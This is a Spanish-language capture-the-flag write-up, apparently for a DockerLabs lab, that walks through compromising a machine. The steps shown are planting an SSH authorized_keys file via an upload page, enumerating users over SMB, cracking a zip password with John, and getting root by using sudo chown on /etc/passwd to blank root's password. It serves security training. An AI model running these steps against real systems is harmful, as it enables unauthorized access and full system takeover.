 nmap: 80,22,139,445

![image](https://github.com/user-attachments/assets/c93e0c93-23ce-460d-b526-85e968e6f4ec)

---
en la pagina principal nos da:

![image](https://github.com/user-attachments/assets/fcc9059f-34dc-4407-a66f-0ffb9b1e35fe)

hacemos un gobuster:

![image](https://github.com/user-attachments/assets/3c562d69-2edd-486b-a1fd-1d4009b5bff6)

nos dio upload.php

![image](https://github.com/user-attachments/assets/4d4f493c-43c8-4824-b9c2-f362aa2990d4)

vuelvo hacer un gobuster pero agrego un .txt

![image](https://github.com/user-attachments/assets/3aab916e-3450-485c-8729-844555a092dd)

entramos y nos da

![image](https://github.com/user-attachments/assets/eabd553b-6926-48d4-ad8a-07d14d14bdf8)

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id_rsa.pub" con el nombre "authorized_keys" y conectarnos sin necesidad de clave, nos faltaría usuarios 

pero podemos enumerar con: 
> enum4linux 172.18.0.2

nos da:

![image](https://github.com/user-attachments/assets/922a3b0b-ee7e-4809-bf6d-55356c4e5565)

creamos un id_rsa 

    ssh-keygen -t rsa -b 4096

![image](https://github.com/user-attachments/assets/3abfabf0-f121-40d6-987e-86224e2cba2f)

nos dara: id_rsa  id_rsa.pub  

pasamos la clave a un authorized_keys

![image](https://github.com/user-attachments/assets/8ab00440-e29b-4c45-b999-d7b5cb3914d4)

le damos permisos: 
> chmod 600 id_rsa 

subimos el authorized_keys

![image](https://github.com/user-attachments/assets/bdc38c49-08c0-4727-abc3-53421d68aab4)

ahora en el terminal colocamos: 
>  ssh passsamba@172.18.0.2 -i id_rsa

 estamos dentro

![image](https://github.com/user-attachments/assets/e3f79d3c-7b47-433b-b866-849bcbae20db)

al hacer un "ls", nos da esto:
>cat note.txt

![image](https://github.com/user-attachments/assets/02e6ce37-d644-425f-ba73-bd0b01b4a1a4)

por la similitud  con  un nombre de usuario, probamos como contraseña:
> su sambauser / sambaarribasiempre

y ahora somos sambauser

como no hay nada, encontré para ver posibles directorios:

    smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2

![image](https://github.com/user-attachments/assets/c56356f7-e265-4009-b2be-75228b56496c)

nos dio dos:
> read_only_share

nos conectamos como clientes.

    smbclient //172.18.0.2/read_only_share -U sambauser -W workgroup  

la contraseña es la misma y dentro nos pasamos con get el zip que hay

![image](https://github.com/user-attachments/assets/4078231a-b32e-45f9-a536-865b0c8d77e4)

como pide contraseña la sacamos:

    zip2john secret.zip > hash.txt 
    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
    
> contraseña: qwert

![image](https://github.com/user-attachments/assets/5d72b198-dbda-48ca-971d-6e71aa66eee1)

le colocamos al txt cat y nos da:
> root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==

en la misma terminal colocamos:
> echo "cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==" | base64 -d

nos da la contraseña

![image](https://github.com/user-attachments/assets/7e47d33d-2cf5-4fea-9411-068ca33b6998)

entramos por ssh en una terminal y colocamos la contraseña con el usuario "root-false"

dentro hay un: message.txt que dice:

![image](https://github.com/user-attachments/assets/4ee839aa-948b-44f5-8945-716001247013)

encontramos esto

![image](https://github.com/user-attachments/assets/be0d2017-31f6-44c3-852f-6563801c2187)

ejecutamos el comando

     curl -vvv -d 'username=mario&password=pinguinodemarioelmejor' http://10.10.11.5

lo que lanzamos es lo del mensaje que vimos 

![image](https://github.com/user-attachments/assets/8d68948b-03ab-4824-a5f2-abd41ec454d2)

lanzamos:

     curl -vvv http://10.10.11.5/super_secure_page/admin.php/

si se hace un: curl -v 10.10.11.5
nos mostrara código de una pagina que contiene un login en el puerto 80

hacemos este comando: 
> ssh root-false@172.18.0.2 -L 9090:10.10.11.5:80

y nos conectaremos otra vez

![image](https://github.com/user-attachments/assets/b1e035df-43e2-49aa-88be-55cc626b0589)

nos vamos a firefox y buscamos esto:
> http://127.0.0.1:9090/

no me funciono pero del codigo anterior vi un "ultramegatexto.txt", lanzamos el siguiente comando

    curl http://10.10.11.5/ultramegatextosecret.txt


nos dio:

![[ultra.png]]

nos dará la pagina de login - admin
en el texto hay parte que me llamo la atención que parece contraseña que dice:
> Cristal_de_la_Aurora

la probamos en el usuario less que sale al final del texto.
y somos el usuario less 
al hacer sudo -l nos da: chown

![[conexion3.png]]

buscando encontré que podemos cambiar al propietario de la carpeta /etc/passwd
con este comando: 

    sudo chown less:less /etc/passwd

ahora hacemos un:

    nano /etc/passwd

![[Pasted image 20250115194824.png]]

![[dockerlabs/dificil/r00tless/cat.png]]

le quitamos la "x" a root 
guardamos y ejecutamos

![[dockerlabs/dificil/r00tless/root.png]]

su root
somos root! 
